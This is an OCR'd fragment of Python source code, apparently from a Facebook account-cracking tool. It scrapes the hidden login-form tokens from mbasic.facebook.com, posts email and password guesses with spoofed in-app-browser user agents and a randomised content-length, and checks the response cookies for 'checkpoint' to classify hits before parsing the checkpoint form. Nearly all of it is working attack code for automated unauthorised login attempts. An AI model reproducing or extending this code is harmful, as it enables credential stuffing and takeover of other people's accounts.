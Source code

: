 				payload[input.get("name")] = input.get("value")
			
			payloads = {
			"lsd": str(payload["lsd"]),
			"jazoest": str(payload["jazoest"]),
			"m_ts": str(payload["m_ts"]),
			"li": str(payload["li"]),
			"try_number": str(payload["try_number"]),
			"unrecognized_tries": str(payload["unrecognized_tries"]),
			"email": str(eml_dev),
			"pass": str(san_dev),
			"bi_xrwh": str(payload["bi_xrwh"])
				}
			header = {
					"user-agent": "Mozilla/5.0 (Linux; Android 11; M2101K7BNY Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.120 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/323.0.0.46.119;]",
					# "user-agent": "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]",
					# "user_agent": "Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]",
					"Host":"mbasic.facebook.com",
					"cache-control":"max-age=0",
					"upgrade-insecure-requests":"1",
					"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
					"accept-encoding":"gzip, deflate",
					"content-length": str(random.randint(100, 200)),
					"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"

					}
			respon = ses_dev.post("https://mbasic.facebook.com"+url_post, data=payloads, headers=header)
			# print respon.cookies
			# print ">>>>",eml_dev,"|",san_dev
			bug = []
			if "checkpoint" in respon.cookies:
				try:
					sop_ = BeautifulSoup(respon.content, "html.parser")
					form = sop_.find("form")
					url_post = form["action"]
					nh = sop_.find("input", attrs={"name": "nh"})["value"]
					payloads = {}
					for dev in form:
						input = dev
						payloads[input.get("name")] = input.get("value")
